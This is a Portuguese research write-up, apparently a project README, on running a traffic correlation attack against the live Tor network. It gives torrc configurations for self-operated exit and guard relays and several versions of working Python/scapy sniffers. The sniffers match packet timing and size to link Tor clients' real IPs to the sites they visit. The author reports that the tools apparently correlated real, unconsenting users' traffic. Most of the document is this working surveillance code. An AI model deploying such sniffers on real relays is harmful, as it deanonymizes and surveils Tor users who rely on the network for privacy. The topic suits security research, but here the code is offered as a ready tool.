









# PESQUISA ATAQUE DE CORELAÇÃO TOR

para o ataque de corelação no TOR, como todos os ataques, eu vou precisar controlar um nodo de saida e um guardião

então para controlar os nodos eu preciso cria-los, criar o relay de saida é o mais facil, pois ele não tem quase nenhum criterio existir

então eu baixei a versão mais recente do daemon do TOR e configurei o torrc

```
RunAsDaemon 1
ORPort 9001
ExitRelay 1
ExitPolicy accept *:*
Nickname ExitTestNode
ContactInfo notexist@proton.me

Log notice file /var/log/tor/server.log
Log debug file /var/log/tor/server_debug.log
```

essa foi a configuração exata que usei, apos configura-lo, bastou algumas horas ate que meu relay ja estivesse ativo e funcionando



---

para facilitar o experimento, meu propio computador seria a vitima desse ataque. para isso bastou configurar o TOR do meu computador pessoal para usar sempre o meu propio exitNode

```
Log debug file /var/log/tor/debug.log
SocksPort 127.0.0.1:9050

# Especifico para usar meu exitNode
ExitNodes 5BCF7A12FE0280554C2DD735A7522B29E08A6023
# Especifico um MiddleNode estatico para meus testes
MiddleNodes 05FFAB786C5B91BEF342ABB6D7A4326B087161EF
# Especifico para usar meu GuardNode
EntryNodes 368F236FD616B218DA853292F555B3BFD3DEBD44
UseEntryGuards 1
```

`<FOTO DO FIREFOX CONFIGURACAO DE REDE>`

com isso todos os pacotes gerados pelo meu firefox ja estava saindo pelo meu propio relay de saida

---

## PRIMEIROS PASSOS

meu primieiro objetivo aqui é correlacionar os pacotes que entram no meu ExitNode com os acessos que ele propio faz para a internet

o problema é que o TOR por padrão não permite essa correlação de forma simples, mesmo eu o dono do relay não tenho como saber de forma simples quel MiddleNode esta se comunicando com qual site

a unica forma que consegui pensar para fazer isso seria modificando o server do TOR ou então uma analise de timestamp.. modificar o server seria complexo de mais então eu optei por uma analise simples de timestamp

a logica é simples: basta aguardar alguma chamada de um middleNode, então ver se apos isso, alguem acessa algum site pela logica, o site acessado foi acessado pelo middleNode, então assim a correlação funciona




o problema é que mesmo meu relay de saida sendo novo e estando online a pouco tempo.. ja tenho centenas de clientes simultanos usando meu relay, ou seja não seria facil correlacionar o tempo do que entra com o que sai..

percebi que poderia tentar correlacionar os pacotes não so por time stamp mas tambem com base no tamanho dele.. um proxy carrega um pacote que em ultima analise vai ser apenas retrasmitido, então o seu tamanho vai ser sempre muito proximo

---

## EXIT NODE

### v1 - primeira versão

este foi o primeiro script feito

```python
from scapy.all import sniff, TCP, IP, DNS, DNSQR
from datetime import datetime
import sys
import socket

exitNodePort = 9001
MonitorPort = 443
exit_node_ip = "177.153.20.241"

tor_buffer = []
used_tor = set()
dns_cache = {}
matches = 0

def reverse_dns(ip):
    if ip in dns_cache:
        return dns_cache[ip]
    try:
        domain = socket.gethostbyaddr(ip)[0].lower()
        dns_cache[ip] = domain
        return domain
    except:
        dns_cache[ip] = ip
        return ip

def process_packet(pkt):
    global matches

    if IP not in pkt or TCP not in pkt:
        return

    ip_layer = pkt[IP]
    tcp_layer = pkt[TCP]
    ts = float(pkt.time)
    dt = datetime.utcfromtimestamp(ts)
    time_str = dt.strftime('%H:%M:%S.') + f"{int((ts % 1) * 1_000_000):06d}"
    pkt_len = len(pkt)

    # Porta 9001 - TODOS os middle nodes
    if (tcp_layer.dport == exitNodePort or tcp_layer.sport == exitNodePort):
        if ip_layer.dst == exit_node_ip:  # chegando no exit
            if pkt_len >= 100:
                tor_buffer.append({
                    "time": time_str,
                    "ts": ts,
                    "len": pkt_len,
                    "middle_ip": ip_layer.src  # GUARDA O IP DO MIDDLE
                })

    # Porta 443 - saída
    elif (tcp_layer.dport == MonitorPort or tcp_layer.sport == MonitorPort):
        if ip_layer.src == exit_node_ip:
            dest_ip = ip_layer.dst

            if pkt_len < 100:
                return

            best_match = None
            best_score = float('inf')

            for tor_pkt in tor_buffer:
                pkt_id = (tor_pkt["ts"], tor_pkt["middle_ip"])
                if pkt_id in used_tor:
                    continue

                time_diff = ts - tor_pkt["ts"]

                if 0 < time_diff <= 0.1:
                    size_ratio = tor_pkt["len"] / pkt_len

                    if pkt_len > 1000:
                        ratio_ok = 0.8 <= size_ratio <= 1.2
                    elif pkt_len > 500:
                        ratio_ok = 0.7 <= size_ratio <= 1.5
                    elif pkt_len > 200:
                        ratio_ok = 0.5 <= size_ratio <= 5.0
                    else:
                        ratio_ok = 0.3 <= size_ratio <= 10.0

                    if ratio_ok:
                        score = time_diff * 1000 + abs(1.0 - size_ratio) * 10

                        if score < best_score:
                            best_score = score
                            best_match = tor_pkt

            if best_match:
                matches += 1
                delay_ms = int((ts - best_match["ts"]) * 1000)
                ratio = best_match["len"] / pkt_len
                domain = reverse_dns(dest_ip)

                print(f"\n[MATCH {matches}] Δ={delay_ms}ms ({best_match['len']}→{pkt_len}b) ratio={ratio:.2f}")
                print(f"Middle: {best_match['middle_ip']} -> Exit: {exit_node_ip} -> Site: {dest_ip} {domain}")

                pkt_id = (best_match["ts"], best_match["middle_ip"])
                used_tor.add(pkt_id)

            tor_buffer[:] = [p for p in tor_buffer if ts - p["ts"] < 1.0]

print(f"Monitorando TODOS os middle nodes\n")

try:
    sniff(filter=f"tcp port {exitNodePort} or tcp port {MonitorPort}", prn=process_packet, store=False)
except KeyboardInterrupt:
    print(f"\n=== {matches} correlações ===")
```




mesmo esse script extremamente simples, ja tive um resultado bem satisfatorio, ele conseguiu relacionar perfeitamente os meus acessos que estava fazendo ao site ifconfig.me

claro ele teve alguns falso positivo, mas mesmo o numero de falso positivo foi muito baixo apenas o acesso ao `64.65.1.5` não consegui identificar.. provavelmente um falso positivo


o problema é que o script estava travando.. muito provavelmente devido a estouro de memoria

---

### v2 - correção de memoria

com auxilio do claude fiz uma revisão do script para evitar os estouros. os principais problemas eram:

- `tor_buffer` era uma lista comum que crescia infinitamente com o volume de tráfego
- `used_tor` também nunca era limpo, acumulando indefinidamente
- `reverse_dns()` travava quando o DNS demorava para responder, bloqueando toda a captura

as correções foram substituir `list` e `set` por `deque(maxlen=X)` que descarta automaticamente os mais antigos quando chega no limite, adicionar `socket.setdefaulttimeout(1.0)` para o DNS não travar mais que 1 segundo, e buscar correlação apenas nos últimos 200 pacotes em vez de varrer tudo

```python
from scapy.all import sniff, TCP, IP
from datetime import datetime
from collections import deque
import sys
import socket

exitNodePort = 9001
MonitorPort = 443
exit_node_ip = "177.153.20.241"

# Buffers com LIMITE (não crescem infinito)
tor_buffer = deque(maxlen=10000)  # máximo 10k pacotes
used_tor = deque(maxlen=5000)     # máximo 5k usados
dns_cache = {}
matches = 0
packets_processed = 0

def reverse_dns(ip):
    if ip in dns_cache:
        return dns_cache[ip]
    try:
        socket.setdefaulttimeout(1.0)
        domain = socket.gethostbyaddr(ip)[0].lower()
        dns_cache[ip] = domain
        return domain
    except:
        dns_cache[ip] = ip
        return ip
    finally:
        socket.setdefaulttimeout(None)

def process_packet(pkt):
    global matches, packets_processed
    packets_processed += 1

    if IP not in pkt or TCP not in pkt:
        return

    ip_layer = pkt[IP]
    tcp_layer = pkt[TCP]
    ts = float(pkt.time)
    dt = datetime.utcfromtimestamp(ts)
    time_str = dt.strftime('%H:%M:%S.') + f"{int((ts % 1) * 1_000_000):06d}"
    pkt_len = len(pkt)

    if (tcp_layer.dport == exitNodePort or tcp_layer.sport == exitNodePort):
        if ip_layer.dst == exit_node_ip:
            if pkt_len >= 100:
                tor_buffer.append({
                    "time": time_str,
                    "ts": ts,
                    "len": pkt_len,
                    "middle_ip": ip_layer.src
                })

    elif (tcp_layer.dport == MonitorPort or tcp_layer.sport == MonitorPort):
        if ip_layer.src == exit_node_ip:
            dest_ip = ip_layer.dst

            if pkt_len < 100:
                return

            best_match = None
            best_score = float('inf')

            for tor_pkt in list(tor_buffer)[-200:]:
                pkt_id = (tor_pkt["ts"], tor_pkt["middle_ip"])
                if pkt_id in used_tor:
                    continue

                time_diff = ts - tor_pkt["ts"]

                if 0 < time_diff <= 0.1:
                    size_ratio = tor_pkt["len"] / pkt_len

                    if pkt_len > 1000:
                        ratio_ok = 0.8 <= size_ratio <= 1.2
                    elif pkt_len > 500:
                        ratio_ok = 0.7 <= size_ratio <= 1.5
                    elif pkt_len > 200:
                        ratio_ok = 0.5 <= size_ratio <= 5.0
                    else:
                        ratio_ok = 0.3 <= size_ratio <= 10.0

                    if ratio_ok:
                        score = time_diff * 1000 + abs(1.0 - size_ratio) * 10

                        if score < best_score:
                            best_score = score
                            best_match = tor_pkt

            if best_match:
                matches += 1
                delay_ms = int((ts - best_match["ts"]) * 1000)
                ratio = best_match["len"] / pkt_len
                domain = reverse_dns(dest_ip)

                print(f"\n[MATCH {matches}] Δ={delay_ms}ms ({best_match['len']}→{pkt_len}b) ratio={ratio:.2f}")
                print(f"Middle: {best_match['middle_ip']} -> Exit: {exit_node_ip} -> Site: {dest_ip} ({domain})")

                used_tor.append((best_match["ts"], best_match["middle_ip"]))

print(f"Monitorando TODOS os middle nodes\n")

try:
    sniff(filter=f"tcp port {exitNodePort} or tcp port {MonitorPort}", prn=process_packet, store=False)
except KeyboardInterrupt:
    print(f"\n=== {matches} correlações ===")
```

A nova versão elimina os estouros de memória que impediam capturas longas. Sem os travamentos, foi possível realizar testes mais extensos, o que revelou um número de correlações bem satisfatório. Boa parte dos falsos positivos restantes deve ser eliminada quando os resultados do nó de saída forem cruzados com as capturas do nó de guarda.


---

## GUARD NODE
### problema IPv6

um detalhe que quase travou tudo: o guard estava se comunicando com o middle via IPv6, não IPv4

```
tcp6  46.224.191.191  →  [2a0e:97c0:3e3:460::]:9001  ESTABELECIDA
```

esse detalhe da comunicação IPV6 poderia tornar a corelação muito mais dificil, pois no exit node eu so estava capturando os endereços IPv4

então minha solução foi adicionar aos configurações do relay de entrada especificações para desabilitar o uso do IPV6
```

IPv6Exit 0
ORPort 8443 IPV4Only

```

### desafio

o guard é diferente do exit. no exit eu sei exatamente qual porta o tráfego entra (9001) e qual porta sai (443). no guard eu sei qual porta entra (8443) mas não sei para qual porta o guard vai repassar pro middle, pois os nodes podem operar em qualquer porta

a solução foi baixar a lista oficial de todos os relays TOR de `onionoo.torproject.org` e filtrar o tráfego de saída apenas para IPs conhecidos da rede. qualquer pacote saindo do guard para um IP dessa lista é tráfego Tor


### v1 - primeira versão do guard
```python
from scapy.all import sniff, TCP, IP
from datetime import datetime
from collections import deque
import requests
import os
import sys

guard_port = 8443
guard_ip = "46.224.191.191"
relay_list_file = "tor_relays.txt"

tor_relays = set()
# Buffer por IP de cliente (cada cliente tem seu próprio buffer)
client_buffers = {}  # client_ip → deque de pacotes
used = set()
matches = 0

def download_tor_relays():
    print("Baixando lista de relays...", flush=True)
    try:
        resp = requests.get("https://onionoo.torproject.org/summary", timeout=30)
        data = resp.json()
        relays = set()
        for relay in data.get('relays', []):
            for addr in relay.get('a', []):
                ip = addr.split(':')[0]
                relays.add(ip)
        with open(relay_list_file, 'w') as f:
            f.write(f"# {len(relays)} relays - {datetime.now()}\n")
            for ip in sorted(relays):
                f.write(f"{ip}\n")
        print(f"✓ {len(relays)} relays salvos")
        return relays
    except Exception as e:
        print(f"✗ Erro: {e}")
        return set()

def load_tor_relays():
    global tor_relays
    if os.path.exists(relay_list_file):
        print("Carregando cache...")
        with open(relay_list_file, 'r') as f:
            for line in f:
                line = line.strip()
                if line and not line.startswith('#'):
                    tor_relays.add(line)
        print(f"✓ {len(tor_relays)} relays carregados")
    else:
        tor_relays = download_tor_relays()
    tor_relays.discard(guard_ip)

def process_packet(pkt):
    global matches

    if IP not in pkt or TCP not in pkt:
        return

    ip_layer = pkt[IP]
    tcp_layer = pkt[TCP]
    ts = float(pkt.time)
    dt = datetime.utcfromtimestamp(ts)
    time_str = dt.strftime('%H:%M:%S.') + f"{int((ts % 1) * 1_000_000):06d}"
    pkt_len = len(pkt)

    # Ignora ACKs
    if pkt_len < 100:
        return

    # ENTRADA: cliente → guard:8443
    if ip_layer.dst == guard_ip and tcp_layer.dport == guard_port:
        client_ip = ip_layer.src
        
        if client_ip not in client_buffers:
            client_buffers[client_ip] = deque(maxlen=500)
        
        client_buffers[client_ip].append({
            "ts": ts,
            "len": pkt_len,
            "client_ip": client_ip
        })

    # SAÍDA: guard → middle
    elif ip_layer.src == guard_ip and ip_layer.dst in tor_relays:
        middle_ip = ip_layer.dst
        middle_port = tcp_layer.dport
        out_ts = ts
        out_len = pkt_len

        best_match = None
        best_client = None
        min_diff = float('inf')

        # Procura em TODOS os buffers de clientes
        for client_ip, buf in client_buffers.items():
            for pkt_in in list(buf):
                pkt_id = (pkt_in["ts"], client_ip)
                if pkt_id in used:
                    continue

                time_diff = out_ts - pkt_in["ts"]

                # Janela: 0-50ms (células Tor são repassadas quase instantaneamente)
                if 0 < time_diff <= 0.05:
                    # Tamanho deve ser muito próximo (ambos são células Tor)
                    size_ratio = pkt_in["len"] / out_len
                    if 0.8 <= size_ratio <= 1.2:
                        if time_diff < min_diff:
                            min_diff = time_diff
                            best_match = pkt_in
                            best_client = client_ip

        if best_match:
            matches += 1
            delay_us = int(min_diff * 1_000_000)
            pkt_id = (best_match["ts"], best_client)
            used.add(pkt_id)

            print(f"\n[MATCH {matches}] Δ={delay_us}µs ({best_match['len']}→{out_len}b)")
            print(f"  Cliente: {best_client} -> Guard:{guard_port} -> Middle: {middle_ip}:{middle_port}")

    # Limpa used antigos (> 5s)
    stale = {k for k in used if ts - k[0] > 5.0}
    used.difference_update(stale)

load_tor_relays()
print(f"\nGuard: {guard_ip}:{guard_port} | Relays: {len(tor_relays)}")
print(f"Correlação por timing puro (janela 50ms, ratio 0.8-1.2)\n")

try:
    sniff(prn=process_packet, store=False)
except KeyboardInterrupt:
    print(f"\n=== {matches} correlações ===")

```



a primeira execução do script que correlaciona o IP Real com o Middle foi bem deprimente, de todas as minhas chamadas ele capturou com sucesso apenas uma.. 1 de 4 é um numero bem merda.. a diminuição dos falso positivo que a captura no exitNode gera, depende totalmente da captura feita no guardNode, quanto mais limpa ela for, menos falso positivo eu vou ter

### v2 - com contagem de frequência

a segunda versão bem parecida apenas diminui a janela de tempo para captura e tambem adiciona uma contagem de quantos pacotes cada relay recebe. a ideia é que o circuito real vai aparecer repetidamente enquanto os falsos positivos aparecem 1 ou 2 vezes

```python
from scapy.all import sniff, TCP, IP
from datetime import datetime
from collections import deque, Counter
import requests
import os
import sys

guard_port = 8443
guard_ip = "46.224.191.191"
relay_list_file = "tor_relays.txt"

tor_relays = set()
client_buffers = {}
used = set()
pair_counts = Counter()  # (client_ip, middle_ip) → contagem
matches = 0

def download_tor_relays():
    print("Baixando lista de relays...", flush=True)
    try:
        resp = requests.get("https://onionoo.torproject.org/summary", timeout=30)
        data = resp.json()
        relays = set()
        for relay in data.get('relays', []):
            for addr in relay.get('a', []):
                ip = addr.split(':')[0]
                relays.add(ip)
        with open(relay_list_file, 'w') as f:
            f.write(f"# {len(relays)} relays - {datetime.now()}\n")
            for ip in sorted(relays):
                f.write(f"{ip}\n")
        print(f"✓ {len(relays)} relays salvos")
        return relays
    except Exception as e:
        print(f"✗ Erro: {e}")
        return set()

def load_tor_relays():
    global tor_relays
    if os.path.exists(relay_list_file):
        print("Carregando cache...")
        with open(relay_list_file, 'r') as f:
            for line in f:
                line = line.strip()
                if line and not line.startswith('#'):
                    tor_relays.add(line)
        print(f"✓ {len(tor_relays)} relays carregados")
    else:
        tor_relays = download_tor_relays()
    tor_relays.discard(guard_ip)

def process_packet(pkt):
    global matches

    if IP not in pkt or TCP not in pkt:
        return

    ip_layer = pkt[IP]
    tcp_layer = pkt[TCP]
    ts = float(pkt.time)
    pkt_len = len(pkt)

    if pkt_len < 100:
        return

    if ip_layer.dst == guard_ip and tcp_layer.dport == guard_port:
        client_ip = ip_layer.src
        if client_ip not in client_buffers:
            client_buffers[client_ip] = deque(maxlen=200)
        client_buffers[client_ip].append({"ts": ts, "len": pkt_len})

    elif ip_layer.src == guard_ip and ip_layer.dst in tor_relays:
        middle_ip = ip_layer.dst
        middle_port = tcp_layer.dport

        best_client = None
        min_diff = float('inf')

        for client_ip, buf in client_buffers.items():
            for pkt_in in list(buf):
                pkt_id = (pkt_in["ts"], client_ip)
                if pkt_id in used:
                    continue

                time_diff = ts - pkt_in["ts"]
                if 0 < time_diff <= 0.02:  # janela 20ms
                    size_ratio = pkt_in["len"] / pkt_len
                    if 0.8 <= size_ratio <= 1.2:
                        if time_diff < min_diff:
                            min_diff = time_diff
                            best_client = (client_ip, pkt_in)

        if best_client:
            client_ip, pkt_in = best_client
            pkt_id = (pkt_in["ts"], client_ip)
            used.add(pkt_id)

            pair = (client_ip, middle_ip)
            pair_counts[pair] += 1
            count = pair_counts[pair]

            matches += 1
            delay_us = int(min_diff * 1_000_000)

            print(f"\n[MATCH {matches}] Δ={delay_us}µs count={count}")
            print(f"  Cliente: {client_ip} -> Guard:{guard_port} -> Middle: {middle_ip}:{middle_port}")

    stale = {k for k in used if ts - k[0] > 5.0}
    used.difference_update(stale)

    for buf in list(client_buffers.values()):
        while buf and ts - buf[0]["ts"] > 5:
            buf.popleft()

def print_stats():
    print(f"\n=== TOP PARES (Cliente → Middle) ===")
    for (client, middle), count in pair_counts.most_common(10):
        print(f"  {count:4}x  {client} → {middle}")

load_tor_relays()
print(f"\nGuard: {guard_ip}:{guard_port} | Relays: {len(tor_relays)}")
print(f"Janela: 20ms | ratio: 0.8-1.2\n")

try:
    sniff(prn=process_packet, store=False)
except KeyboardInterrupt:
    print(f"\n=== {matches} correlações ===")
    print_stats()
```

dessa vez ele capturou muito mais pacotes com sucesso, infelismente não diminuiu 100%, ate porque acredito que a forma que estou fazendo não é a mais sofisticada, mas acho que da forma como esta ja vamos ser capazes de ter uma noção bem realista e proxima do impacto real de um ataque correlacional no TOR




acho que essa execução foi bem satisfatoria... o proximo passo sem duvidas é de alguma forma salvar os logs gerados na captura do guard e no exit e tentar fazer todo mapeamento do quem sou e o que estou acessando

---

## CORRELAÇÃO FINAL

minha ideia foi salvar os resultados em um json ficar sempre alimentando ele, e em paralelo um terceiro script para executar e ficar verificando os logs gerados então simplesmente compara o IP do cliente com o que ele usou no MiddleNode, se vejo se o MiddleNode em questão foi capturado no exitNode, então basta ver o que ele acessou..

enquanto eu escrevia o script algo realmente me assustou..



trafegos REAIS sendo correlacionados.. isso é assustador porque correlacionar o meu trafego é tranquilo, como mostrado eu configurei meu cliente explicitamente para usar meu 2 nodos infectados.. mas e esses clientes ? ninguem aqui fez essa configuração..

tudo bem, o script não esta 100% preciso, mas a precisão existe, imaginar que todos essas correlações são falso positivo é ir longe de mais. realmente temos clientes reais usando meus 2 nodos infectados de forma legitima

como o codigo ainda estava em desenvolvimento eu não cheguei a salvar a versão exata desse print, mas a versão final pode ser acessada em `script/`





e este foi o resultado final do nosso teste de correlação na rede TOR, tivemos varios falsos positivos mas isso é de se esperar, nosso script é extremamente rustico, porem foi possivel correlacionar com sucesso todos os sites que acessei, o metrics.torproject.org ifconfig.me, com sucesso.

Claro que para o ataque funcionar de verdade, o cliente precisaria ter a sorte (ou o azar) de passar pelos dois nós modificados simultaneamente — o que matematicamente é muito pouco provável. Ainda assim, mesmo com um script e uma técnica extremamente rudimentares, foi possível correlacionar alguns clientes legítimos na rede Tor.

> [!WARNING]
> Embora o script tenha correlacionado com sucesso todo o tráfego do IP utilizado nos testes, os tráfegos capturados organicamente podem não ser legítimos. O mais provável é que as correlações orgânicas sejam resultado de um segundo cliente compartilhando o mesmo nó intermediário (middle node) com o cliente do nó de guarda. Da forma como o script está atualmente, só seria possível confirmar a legitimidade de uma correlação com um algoritmo mais sofisticado ou com acesso direto ao middle node.
